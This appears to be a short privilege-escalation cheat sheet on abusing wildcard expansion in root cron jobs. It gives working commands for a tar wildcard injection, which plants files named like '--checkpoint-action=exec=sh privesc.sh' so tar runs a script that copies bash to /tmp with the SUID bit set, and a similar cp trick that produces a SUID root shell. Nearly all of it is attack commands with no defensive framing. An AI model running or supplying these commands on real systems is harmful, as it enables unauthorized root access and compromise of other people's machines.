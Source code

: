 #### Tar
Example:
```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

Exploitation:
First, create `privesc.sh`
```
#!/bin/bash
sudo cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```

```
chmod +x privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"  
echo "" > --checkpoint=1
```

After the crontab has run, use
```
/tmp/bash -p
```

## cp
Run these:
```
touch -- --preserve=mode
touch -- --no-preserve=ownership
cp /bin/bash root_shell
chmod +s root_shell
```
